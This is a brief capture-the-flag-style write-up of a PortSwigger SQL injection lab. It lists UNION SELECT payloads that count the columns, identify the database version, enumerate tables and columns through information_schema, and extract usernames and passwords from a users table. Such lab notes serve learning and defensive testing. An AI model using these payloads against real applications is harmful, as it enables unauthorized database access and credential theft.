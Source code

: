 https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle


##### Enumerate the columns
`/filter?category=Lifestyle'union+select+null,null--`
##### Identify the RDBMS
`/filter?category=Lifestyle'union+select+null,version()--`
#### Enumerate the tables
```sql
'+UNION+SELECT+table_name,NULL+FROM+information_schema.tables--
```
`table_name` isn’t a placeholder—it’s an actual column in the `information_schema.tables` table that stores the names of tables in the database.
#### Select whatever table
```sql
'+UNION+SELECT+column_name,NULL+FROM+information_schema.columns+where+table_name='users_rtlina'--
```

```sql
SELECT some_column FROM some_table WHERE category = 'Lifestyle' 
UNION SELECT table_name, NULL FROM information_schema.tables;
```

![[Pasted image 20241110015657.png]]
And to use it simply use a select form:
```sql
'+UNION+SELECT+username_xamasr,password_uaugcn+FROM+users_rtlina--
```
